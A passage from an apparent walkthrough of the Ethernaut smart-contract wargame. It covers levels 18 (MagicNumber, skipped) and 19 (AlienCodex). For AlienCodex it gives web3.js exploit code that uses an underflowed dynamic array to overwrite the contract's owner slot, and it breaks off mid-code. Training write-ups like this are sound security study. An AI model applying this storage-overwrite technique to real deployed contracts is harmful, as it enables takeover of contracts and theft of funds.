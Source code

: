 ```
})
```

## 18. MagicNumber
I don't really think this is a security challenge, it's more like a general coding challenge about how you can deploy a very small sized contract! I'm going to skip this floor but if you're interested to do this challenge, read this [solution](https://medium.com/coinmonks/ethernaut-lvl-19-magicnumber-walkthrough-how-to-deploy-contracts-using-raw-assembly-opcodes-c50edb0f71a2) by Nicole Zhu.


## 19. AlienCodex
In order to solve this level, you need to understand about 3 things:
1. Packing of storage variables to fit into one storage slot of 32bytes
2. How values in dynamic arrays are stored
3. How to modify an item outside of the size of the array.ss

This [example](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) should prove useful to understanding point 2.
```
// What is in slot 0 of my storage?
await web3.eth.getStorageAt(instance, 0); // 0x000000000000000000000001xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx where the x represents your address and 1 represents contact = true

// Number of elements in dynamic array (codex) is stored at index 1 i.e. web3.eth.getStorageAt(instance, 1)
// Actual elements stored in dynamic array (codex) can be found at index uint256(keccak256(1)); //
80084422859880547211683076133703299733277748156566366325829078699459944778998
// New elements added to dynamic array (codex) can be found at index uint256(keccak256(1)) + index in array e.g.
// First element is found at uint256(keccak256(1)) + 0;
// Second element is found at uint256(keccak256(1)) + 1;
// Third element is found at uint256(keccak256(1)) + 2;

// We want to modify storage slot 0 since that is where owner is stored at.
// We need a value N such that uint256(keccak256(1)) + N = 0
// 0 (or max value for uint256) - uint256(keccak256(1)) = N

var maxVal = "115792089237316195423570985008687907853269984665640564039457584007913129639936"
var arrayPos = "80084422859880547211683076133703299733277748156566366325829078699459944778998"
var offset = (web3.utils.toBN(maxVal).sub(web3.utils.toBN(arrayPos))).toString();
var elementAtIndexZero = await web3.eth.getStorageAt(instance, 0);
var newElementAtIndexZero = `${elementAtIndexZero.slice(0, 26)}${player.slice(2,)}`

var replaceIndexZeroPayload = web3.eth.abi.encodeFunctionCall({
    name: 'revise',
    type: 'function',
    inputs: [{
        type: 'uint256',
        name: 'i'
    },{
        type: 'bytes32',
        name: '_content'
    }]
}, [offset.toString(), newElementAtIndexZero]);

// If you try to do
// await web3.eth.sendTransaction({to: instance, from: player, data: replaceIndexZeroPayload});
// It will fail because you are trying to modify an index that is greater than the length of the array
// I mean there's a reason why there is a retract() function right? haha.

var retractPayload = web3.eth.abi.encodeFunctionCall({
    name: 'retract',
```